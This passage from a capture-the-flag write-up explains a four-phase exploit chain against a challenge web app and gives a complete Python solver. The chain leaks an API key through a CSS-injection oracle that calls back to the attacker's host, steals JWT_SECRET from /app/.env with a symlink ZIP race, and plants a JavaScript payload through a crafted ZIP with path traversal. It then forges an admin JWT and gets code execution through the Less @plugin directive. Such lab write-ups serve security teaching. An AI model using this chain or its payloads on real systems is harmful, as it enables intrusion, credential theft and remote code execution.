    # Extract() streams from byte 0 -> hits every PK\x03\x04 -> extracts 4 files
    phantom = _local_header(entry_path.encode(), data)
    raw = raw[:cd_off] + phantom + raw[cd_off:]

    # Step 4: patch the EOCD to point to the (now shifted) central directory
    new_eocd = raw.rfind(b'PK\x05\x06')
    struct.pack_into('<I', raw, new_eocd + 16, cd_off + len(phantom))
    return bytes(raw)
```

When uploaded via `POST /api/manifest`:
1. `validateArchive()` calls `Open.buffer()` -> reads the central directory -> sees 3 PNG files -> validation passes.
2. `extractArchive()` calls `Extract()` -> streaming parser reads all local headers -> extracts 4 files including the phantom `payload.js`.
3. The `indexOf` check passes because `bot_rce` starts with `bot`.
4. `validateExtractedFiles` only scans the user's own workspace directory (`workspace/bot/`), not the sibling `workspace/bot_rce/`. The payload is never cleaned up.

## Phase 4: RCE via Less `@plugin`

All the pieces are in place: the API key, the JWT secret, and a JavaScript file at a known path on the server. The last step is turning the Less CSS compiler endpoint into code execution.

### `less@4.2.0`: `@plugin` executes arbitrary files with full `require` access

Less CSS supports a `@plugin` directive that loads a JavaScript file from disk and executes it as a plugin. Internally, the file contents are wrapped in `new Function(module, require, registerPlugin, ...)` and immediately invoked: where `require` is a real, unsandboxed Node.js `require` created via `createRequire`. The full internals are documented in [Exploiting Less.js to Achieve RCE](https://www.softwaresecured.com/post/exploiting-less-js-to-achieve-remote-code-execution-rce).

Key properties that make this exploitable here:

- **Extension-agnostic**: Less loads any file regardless of extension: `@plugin "/path/file.js"` works.
- **Absolute paths work**: no need to know a relative path from the Less install directory.
- **Full Node.js access**: `require('child_process')`, `require('fs')`, and all built-ins are available. Error messages from the endpoint are suppressed, so output must be written to a file the attacker can subsequently read.

### Exploitation

With the JWT secret from Phase 2, we can forge a `ledgermaster` JWT:

```python
hdr = b64url(b'{"alg":"HS256","typ":"JWT"}')
pld = b64url(json.dumps({'username': 'admin', 'role': 'ledgermaster'}).encode())
sig = b64url(hmac.new(secret.encode(), f'{hdr}.{pld}'.encode(), hashlib.sha256).digest())
jwt = f'{hdr}.{pld}.{sig}'
```

Submit the Less CSS payload to `POST /ledgermaster/render`:

```less
@plugin "/app/uploads/workspace/bot_rce/payload.js";
body { color: red; }
```

Less reads `payload.js`, wraps its contents in `new Function(module, require, ...)`, and calls it. The payload:

```javascript
const{execSync}=require('child_process');
const{writeFileSync}=require('fs');
writeFileSync('/app/uploads/workspace/bot/flag.txt', execSync('/readflag').toString());
```

`require('child_process')` resolves to the real built-in module. `execSync('/readflag')` runs the setuid binary which reads `/flag.txt`. The output is written to a path inside the warden's workspace. `GET /api/manifests/flag.txt/raw` with the stolen API key retrieves it.

The complete solver is:

```python
#!/usr/bin/env python3
# usage: python3 solver.py [api_key]
import base64, hashlib, hmac, io, json, queue, struct, sys, threading, time, zipfile
import http.server, urllib.request, urllib.parse

T  = 'http://CHALLENGE_IP:1337'  # challenge URL
A  = 'http://YOUR_IP'           # attacker IP reachable by the bot
CS = '0123456789abcdef'

# ── oracle ───────────────────────────────────────────────────────────────────
_html = ''; _q = queue.Queue()

TMPL = """<!DOCTYPE html><html><body><script>
var T='__T__',AT='__AT__',P='__P__',CS='__CS__';
var t0=Date.now();
function url(c){
  var css='<style>div[data-content^="'+P+c+'"]{background:url('+T+'/depart)}</style>';
  return T+'/ledger?record=../relay-key%3F&theme='+encodeURIComponent(css)+'%5D=1&theme=dark';
}
function go(i){
  if(i>=CS.length){fetch(AT+'/cb?found=none');return;}
  if(Date.now()-t0>=55000){fetch(AT+'/cb?resume='+i);return;}
  var p=window.open(url(CS[i]),'_blank');
  setTimeout(function(){
    p.location=T+'/ledger';
    setTimeout(function(){var f=p.length;p.close();
      if(f===0)fetch(AT+'/cb?found='+CS[i]);else go(i+1);
    },1500);
  },3000);
}
go(__I__);
</script></body></html>"""

class OracleHandler(http.server.BaseHTTPRequestHandler):
    def do_GET(self):
        if '/cb?' in self.path:
            qs = urllib.parse.parse_qs(urllib.parse.urlparse(self.path).query)
            self.send_response(200); self.end_headers(); self.wfile.write(b'ok')
            _q.put({'found': qs.get('found',[''])[0] or None,
                    'resume': int(qs['resume'][0]) if 'resume' in qs else None})
        else:
            b = _html.encode()
            self.send_response(200); self.send_header('Content-Type','text/html')
            self.send_header('Content-Length',str(len(b))); self.end_headers(); self.wfile.write(b)
    def log_message(self, *a): pass

def trigger_bot():
    d = urllib.parse.urlencode({'body':'x','url':f'{A}:8888/'}).encode()
    try: urllib.request.urlopen(urllib.request.Request(
        T+'/report', d, {'Content-Type':'application/x-www-form-urlencoded'}), timeout=5).close()
    except: pass

def run_oracle():
    global _html
    srv = http.server.HTTPServer(('',8888), OracleHandler)
    threading.Thread(target=srv.serve_forever, daemon=True).start()
    key = ''
    for _ in range(12):
        idx = 0; found = None
        while idx < len(CS):
            _html = (TMPL.replace('__T__',T).replace('__AT__',f'{A}:8888')
                        .replace('__P__',key).replace('__CS__',CS).replace('__I__',str(idx)))
            trigger_bot()
            try: r = _q.get(timeout=75)
            except queue.Empty: break
            if r['found'] and r['found'] != 'none': found = r['found']; break
            idx = r['resume'] if r['resume'] is not None else idx + 1
        if not found: break
        key += found; print(f'  → {key}')
    srv.shutdown(); return key

# ── zip helpers ──────────────────────────────────────────────────────────────
PNG = (b'\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x00\x01\x00\x00\x00\x01'
       b'\x08\x02\x00\x00\x00\x90wS\xde\x00\x00\x00\x0cIDATx\x9cc\xf8\x0f\x00'
       b'\x00\x01\x01\x00\x05\x18\xd8N\x00\x00\x00\x00IEND\xaeB`\x82') + b'\x00'*(512*1024)

def make_symlink_zip(name, tgt, n=120):
    b = io.BytesIO(); z = zipfile.ZipFile(b,'w',zipfile.ZIP_STORED)
    for i in range(n): z.writestr(f'a_{i:03d}.png', PNG)
    zi = zipfile.ZipInfo(name); zi.create_system = 3; zi.external_attr = 0o120777 << 16
    z.writestr(zi, tgt); z.close(); return b.getvalue()

def make_phantom_zip(entry, data, n=3):
    b = io.BytesIO(); z = zipfile.ZipFile(b,'w',zipfile.ZIP_STORED)
    for i in range(n): z.writestr(f'pad_{i}.png', PNG)
    z.close(); raw = bytearray(b.getvalue())
    eocd = raw.rfind(b'PK\x05\x06')
    _,_,_,_,_,cd_off,_ = struct.unpack_from('<HHHHIIH', raw, eocd+4)
    crc = zipfile.crc32(data) & 0xffffffff
    ph = (b'PK\x03\x04' + struct.pack('<HHHHH',20,0,0,0,0)
          + struct.pack('<III',crc,len(data),len(data))
          + struct.pack('<HH',len(entry),0) + entry + data)
    raw = raw[:cd_off] + ph + raw[cd_off:]
    struct.pack_into('<I', raw, raw.rfind(b'PK\x05\x06')+16, cd_off+len(ph))
    return bytes(raw)

# ── http helpers ─────────────────────────────────────────────────────────────
def get(p, h=None):
    try:
        with urllib.request.urlopen(urllib.request.Request(T+p, headers=h or {}), timeout=10) as r:
            return r.status, r.read()
    except urllib.error.HTTPError as e: return e.code, e.read()

def post_json(p, body, h=None):
    d = json.dumps(body).encode()
    try:
        with urllib.request.urlopen(urllib.request.Request(
                T+p, d, {'Content-Type':'application/json', **(h or {})}), timeout=10) as r:
            return r.status, json.loads(r.read())
    except urllib.error.HTTPError as e: return e.code, json.loads(e.read())

def post_file(p, field, fname, data, h=None):
    bnd = b'Boundary'
    body = (b'--'+bnd+b'\r\nContent-Disposition: form-data; name="'+field.encode()
            +b'"; filename="'+fname.encode()+b'"\r\nContent-Type: application/octet-stream\r\n\r\n'
            +data+b'\r\n--'+bnd+b'--\r\n')
    try:
        with urllib.request.urlopen(urllib.request.Request(T+p, body, {
                'Content-Type':'multipart/form-data; boundary=Boundary',
                'Content-Length':str(len(body)), **(h or {})}), timeout=10) as r:
            return r.status, json.loads(r.read())
    except urllib.error.HTTPError as e: return e.code, json.loads(e.read())

def b64u(d): return base64.urlsafe_b64encode(d).rstrip(b'=').decode()

# ── main ─────────────────────────────────────────────────────────────────────
def main():
    api_key = sys.argv[1] if len(sys.argv) > 1 else None
    if not api_key:
        print('[*] phase 1 — oracle')
        api_key = run_oracle()
        if not api_key: print('[-] oracle failed'); sys.exit(1)
    print(f'[+] api key  : {api_key}')

    # phase 2 — symlink race → JWT_SECRET
    print('[*] phase 2 — symlink race')
    sz = make_symlink_zip('z_link', '/app/.env')
    class ZipSrv(http.server.BaseHTTPRequestHandler):
        def do_GET(self):
            self.send_response(200); self.send_header('Content-Type','application/zip')
            self.send_header('Content-Length',str(len(sz))); self.end_headers(); self.wfile.write(sz)
        def log_message(self, *a): pass
    threading.Thread(target=http.server.HTTPServer(('',8000),ZipSrv).serve_forever, daemon=True).start()
    post_json('/api/fetch', {'url': f'{A}:8000/x.zip'}, {'X-Api-Key': api_key})
    env = None; dl = time.time() + 10
    while time.time() < dl:
        s, b = get('/api/cargo/z_link/raw', {'X-Api-Key': api_key})
        if s == 200 and b: env = b.decode(errors='replace'); break
        time.sleep(0.05)
    if not env: print('[-] race failed'); sys.exit(1)
    secret = next((l.split('=',1)[1].strip() for l in env.splitlines() if l.startswith('JWT_SECRET=')), None)
    if not secret: print('[-] secret not found'); sys.exit(1)
    print(f'[+] secret   : {secret}')

    # phase 3 — phantom zip → payload.js
    print('[*] phase 3 — phantom zip')
    payload = (b"const{execSync}=require('child_process');\n"
               b"const{writeFileSync}=require('fs');\n"
               b"writeFileSync('/app/uploads/workspace/bot/flag.txt',execSync('/readflag').toString());\n")
    post_file('/api/manifest', 'zip', 'bundle.zip',
              make_phantom_zip(b'../bot_rce/payload.js', payload),
              {'X-Api-Key': api_key})

    # phase 4 — forge JWT + @plugin rce
    print('[*] phase 4 — @plugin rce')
    hdr = b64u(b'{"alg":"HS256","typ":"JWT"}')
    pld = b64u(json.dumps({'username':'admin','role':'ledgermaster'}).encode())
    sig = b64u(hmac.new(secret.encode(), f'{hdr}.{pld}'.encode(), hashlib.sha256).digest())
    post_json('/ledgermaster/render',
              {'css': '@plugin "/app/uploads/workspace/bot_rce/payload.js";'},
              {'Cookie': f'token={hdr}.{pld}.{sig}'})

    time.sleep(0.5)
    s, b = get('/api/manifests/flag.txt/raw', {'X-Api-Key': api_key})
    print(f'[+] flag     : {b.decode().strip()}' if s == 200 and b else f'[-] failed ({s})')

if __name__ == '__main__': main()
```

Running the solver prints the flag:

```text
[*] phase 1 — oracle
  → ...
[+] api key  : a1b2c3d4e5f6
[*] phase 2 — symlink race
[+] secret   : <hex>
[*] phase 3 — phantom zip
[*] phase 4 — @plugin rce
[+] flag     : HTB{...}
```
